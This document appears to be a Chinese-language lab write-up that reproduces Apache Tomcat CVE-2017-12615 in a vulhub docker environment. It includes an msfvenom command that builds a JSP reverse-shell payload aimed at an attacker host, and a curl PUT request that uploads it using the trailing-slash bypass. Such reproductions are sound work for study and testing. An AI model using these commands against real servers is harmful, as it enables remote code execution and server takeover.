

# Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

<a-checkbox checked>Apache Tomcat 7.0.0 - 7.0.81</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```


## 漏洞复现

漏洞产生的主要原因来自于`conf/web.xml`文件配置错误,readonly开启了false,导致可以使用`PUT/DELETE`请求方法操作文件



`msf`生成一个`jsp`木马

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```shell
curl -v -X PUT --data-binary @shell.jsp "http://xxx.xxx.xxx.xxx:8080/shell.jsp/"
```

<a-alert type="success" message='注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要' description="" showIcon>
</a-alert>

<br/>

成功上传木马文件


访问文件即可反弹一个`shell`

